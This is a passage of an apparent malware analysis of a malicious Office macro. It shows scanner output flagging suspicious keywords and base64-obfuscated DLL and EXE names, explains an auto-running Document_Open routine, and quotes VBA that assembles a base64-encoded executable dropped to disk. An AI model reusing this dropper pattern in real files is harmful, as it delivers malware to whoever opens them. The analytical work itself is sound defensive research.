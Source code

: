 ```
|          |                    |opened                                       |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|ADODB.Stream        |May create a text file                       |
|Suspicious|SaveToFile          |May create a text file                       |
|Suspicious|Call                |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Lib                 |May run code from a DLL                      |
|Suspicious|URLDownloadToFileA  |May download files from the Internet         |
|          |                    |(obfuscation: Base64)                        |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |Wininet.dll         |Executable file name (obfuscation: Base64)   |
|IOC       |Urlmon.dll          |Executable file name (obfuscation: Base64)   |
|IOC       |utfc.dll            |Executable file name (obfuscation: Base64)   |
|IOC       |KERNEL32.dll        |Executable file name (obfuscation: Base64)   |
|IOC       |UrlDownloadToFile.dl|Executable file name (obfuscation: Base64)   |
|          |l                   |                                             |
|IOC       |LogiMail.dll        |Executable file name (obfuscation: Base64)   |
|IOC       |LogiMailApp.exe     |Executable file name (obfuscation: Base64)   |
|Base64    |\Microsoft\Office\Lo|XE1pY3Jvc29mdFxPZmZpY2VcTG9naU1haWwuZGxs     |
|String    |giMail.dll          |                                             |
|Base64    |\Microsoft\Office\Lo|XE1pY3Jvc29mdFxPZmZpY2VcTG9naU1haWxBcHAuZXhl |
|String    |giMailApp.exe       |                                             |
+----------+--------------------+---------------------------------------------+

```

Looking at the extracted macro, function `Document_Open` were being used which means the code will be run when the document was open. There are 2 functions which are `AES` to decode the given value from Base64 and `MyDecode` function that replaces custom encoded placeholders ("uPCgt131", "Jc34DSga") with Base64 padding characters (== and =).

 #### Examining `Document_Open()` 

This function starts of with contructing lgstr which is a base64 encoded binary data. and then save temporary in `PUBLIC\` folder.

binary data or `lgstr` construction:

`sl1.tmp`


```
    lgstr = "T" & "V" & "qQA" & "AMAAAA"
    lgstr = lgstr & "EAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAADdY4TFmQLqlpkC6paZAuqWRP0hlpoC6paZAuuWnQLqlmtb45ebAuqWa1vql5gC6pZrW+iXmALqllJpY2iZAuqW"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAUEUAAEwBAwAxUuFdAAAAAAAAAADgAAIhCwEOAAACAAAABgAAAAAAAAAAAAAAEAAAACAAAAAAABAAEAAAAAIAAAYAAAAAAAAABgAAAAAAAAAAQAAAAAQAAAAAAAACAEAFAAAQAAAQAAAAABAAABAAAAAAAAAQAAAAsCAAAE0AAAC0IQAAKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwAAAgAAAA"
    lgstr = lgstr & "cCAAADgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAABQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAudGV4dAAAAIAAAAAAEAAAAAIAAAAEAAAAAAAAAAAAAAAAAAAgAABgLnJkYXRhAAA4AgAAACAAAAAEAAAABgAAAAAAAAAAAAAAAAAAQAAAQC5yZWxvYwAAIAAAAAAwAAAAAgAAAAoAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAEAAAEIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```
